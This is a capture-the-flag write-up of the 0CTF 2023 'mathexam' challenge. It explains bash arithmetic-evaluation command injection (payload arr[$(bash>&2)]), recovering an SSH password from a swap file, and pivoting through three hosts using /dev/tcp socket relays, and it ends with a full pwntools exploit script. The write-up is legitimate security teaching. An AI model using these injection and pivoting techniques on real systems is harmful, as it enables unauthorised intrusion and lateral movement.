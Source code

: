 # mathexam

## Overview

mathexam was a 4 part problem focusing on the bash shell. Initially, we
are given a bash shell script implementing a math guessing game. We are
allowed to connect over an HTTP proxy to an instance of the problem
running thie script.

## Part 1

The bash script requires the user to enter an "exam integrity
statement", asks the the user 100 addition questions, checking the
answers, prints a score, then exits.

The bug lies in the following code:
```bash
    read line

    if [[ "$line" -eq "$ans" ]]
    then
        ...
    fi
```

While this appears safe at first glance, this actually allows command
injection because bash performs arithmetic evaluation on the arguments
to `-eq`, as described at
https://research.nccgroup.com/2020/05/12/shell-arithmetic-expansion-and-evaluation-abuse/.

Providing `arr[$(bash>&2)]` to that prompt gives us a shell that allows
us to read the first flag.

## Part 2

Looking around the filesystem, we see a file named `.connect.sh.swp`
that contains a reference to the command
`sshpass -p x5kdkwjr8exi2bf70y8g80bggd2nuepf ssh ctf@second`.

From this, we conclude that we need to proxy an SSH connection to
`second` using those credentials via bash.

We did this by opening a socket in bash using:
`exec 5<> /dev/tcp/second/22` then redirecting stdin and stdout to/from
the socket using `cat <&5 & cat >&5`.

Then we used pwntool's `pwnlib.tubes.ssh` to take over our remote connection
and speak SSH to it. This gives us a shell that allows us to read the
second flag.

## Part 3

Part 3 was the same as part 2, except this time, we need to connect to
`ctf@third`. The SSH server on `second` does not allow port forwarding
so we bash to proxy the connection in the same way.

## Part 4

Part 4 was the same as parts 2 and 3, except that `cat` is no longer
available in this shell. We initially attempted to replicate `cat` using
a bash read loop. However, this appeared to corrupt inputs/outputs
somehow. After debugging this for a bit, we realized that bash's read
builtin is unable to return null bytes. Searching for solutions to this
online, we found
https://unix.stackexchange.com/questions/626641/how-to-read-binary-data-including-zero-bytes-using-bash-builtin-read
and adapted the solution from there (see our solution script below).

Replacing `cat` with a null-preserving read loop allows us to SSH to
`ctf@fourth`, which gives us the final flag.

## Solution

```python
#!/usr/bin/env python3
from pwn import *

l = listen()
l.spawn_process('socat - PROXY:instance.0ctf2023.ctf.0ops.sjtu.cn:7et9q47wqqhqqc6b:1,proxyport=18081'.split())

r = remote('localhost', l.lport)

r.recvuntil(b'here:\n')
r.sendline(b'I promise to play fairly and not to cheat. In case of violation, I voluntarily accept punishment')
r.recvuntil(b'?\n')
r.sendline(b'arr[$(bash>&2)]')
r.sendline(b'cat .connect.sh.swp; echo EOF')
swp = r.recvuntil(b'EOF\n', drop=True)

password = swp.split(b' -p ')[1].split()[0].decode()
print(f'{password = }')

r.sendline(b'exec 5<> /dev/tcp/second/22; cat <&5 & cat >&5')

s = ssh(user='ctf', password=password, host='second', proxy_sock=r.sock, raw=True)
r2 = s.shell(tty=False)

r2.sendline(b'exec 5<> /dev/tcp/third/22; cat <&5 & cat >&5')

s2 = ssh(user='ctf', password=password, host='third', proxy_sock=r2.sock, raw=True)
r3 = s2.shell(tty=False)

r3.sendline(b'''
exec 5<> /dev/tcp/fourth/22;
while IFS= LC_ALL=C read -rd '' -n1 c && [[ -z "$c" ]] && printf '\\0' || echo -n "$c"; do true; done <&5 &
while IFS= LC_ALL=C read -rd '' -n1 c && [[ -z "$c" ]] && printf '\\0' || echo -n "$c"; do true; done >&5
'''.strip())

s3 = ssh(user='ctf', password=password, host='fourth', proxy_sock=r3.sock, raw=True)
s3.interactive()
```

